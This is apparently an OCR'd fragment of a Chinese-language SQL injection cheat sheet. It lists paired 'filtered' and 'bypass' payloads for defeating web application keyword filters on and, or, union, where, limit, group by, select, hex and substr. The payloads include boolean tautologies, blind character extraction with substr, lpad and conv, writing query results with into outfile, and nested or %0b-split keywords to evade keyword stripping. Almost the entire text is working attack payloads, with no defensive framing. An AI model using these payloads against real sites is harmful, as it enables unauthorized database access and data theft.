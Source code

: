 ```
过滤：1 or 1 = 1 1 and 1 = 1
绕过：1 || 1 = 1 1 && a = 1
绕过：^, =, !=, %, /, *, &, &&, |, ||, <, >, >>, <<, >=, <=, <>, <=>, XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN, ...
```

* 同时过滤and，or，union

```
过滤：union select user, passwd from users
绕过：1 || (select user from users where user_id = 1) = 'admin'
```

* 同时过滤and，or，union，where

```
过滤：1 || (select user from users where user_id = 1) = 'admin'
绕过：1 || (select user from users limit 1) = 'admin'
```

* 同时过滤and，or，union，where，limit

```
过滤：1 || (select user from users limit 1) = 'admin'
绕过：1 || (select user from users group by user_id having user_id = 1) = 'admin'
```

* 同时过滤and，or，union，where，limit，group by

```
过滤：1 || (select user from users group by user_id having user_id = 1) = 'admin'
绕过：1 || (select substr(group_concat(user),1,5) from users) = 'admin'
```

* 同时过滤and，or，union，where，limit，group by，select

```
过滤：1 || (select substr(group_concat(user),1,5) from users) = 'admin'
绕过：1 || 1 = 1 into outfile 'result.txt'
绕过：1 || substr(user,1,5) = 'admin'
绕过：1 || user_id is not null
绕过：1 || substr(user,1,1) = 0x61
绕过：1 || substr(user,1,1) = unhex(61)
绕过：1 || substr(user,1,1) = lower(conv(11,10,36))
```

* 同时绕过and，or，union，where，limit，group by，select，hex，substr

```
过滤：1 || substr(user,1,1) = lower(conv(11,10,36))
绕过：1 || lpad(user,7,1)
```

### 移除关键词

```
绕过：1+UNunionION+SEselectLECT+1,2,3 --
绕过：1+uni%0bon+se%0blect+1,2,3 --
```

